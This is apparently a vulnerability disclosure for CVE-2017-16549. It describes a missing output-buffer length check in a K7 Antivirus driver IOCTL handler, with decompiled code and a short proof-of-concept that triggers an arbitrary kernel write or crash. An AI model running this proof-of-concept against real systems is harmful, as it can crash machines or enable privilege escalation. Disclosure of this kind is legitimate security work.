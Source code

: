 # CVE-2017-16549

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7TSMngr.exe 16.0.0.70*


# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x95002570 does not check the length of the output buffer before using it and assigns a 4 byte value to the output buffer. As is visible from the case 0x9500256C, **before** *pOutputBuffer* is assigned to, *dwOutLength* is checked to ensure it can hold a 4 byte value. In in the case for 0x95002570, no such check exists.

 The code snippet below is the decompiled code which has been named and commented up to illustrate the problem.


```C++
case 0x9500256C:  // This IOCTL is fine as it length checks the parameters
    if ( stIoControlBuffer.InputBufferLength < 4u || !pInputBuffer )
        goto LABEL_49;
    // Check here to ensure that the output length is >= 4
    if ( dwOutLength_1 < 4 )
        goto LABEL_39;
    // Write 4 bytes to it (32-bit so PVOID is 4 bytes in this case)
    *pOutputBuffer = (PVOID)1;
    *v2 = 4;
    v9 = 0;
    goto LABEL_117;
case 0x95002570:
    *v2 = 4;
    // Bug: No check here to ensure you are allowed to write to pOutputBuffer
    *pOutputBuffer = (PVOID)dword_4EFF0;
    v9 = 0;
    goto LABEL_117;
```

# PoC Code
This PoC will open a connection to the driver and call it with the approiate IOCTL code to geneate the crash.

```c++
HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDevice != INVALID_HANDLE_VALUE)
{
    DeviceIoControl(hDevice, 0x95002570, (PVOID)arrInBuffer, 0, (PVOID)0xaaaaaaaa, 0, &dwBytesReturned, NULL);
}
```

On Windows XP, this will attempt to write the value of *dword_4EFF0* to *0xaaaaaaaa*. On this platform, this could be easily used for a privilege escallation.

On Windows 7 and above, this will attempt to write the value at *dword_4EFF0* to 0x00000000 and will cause a BSOD. This would simply be an availability issues.
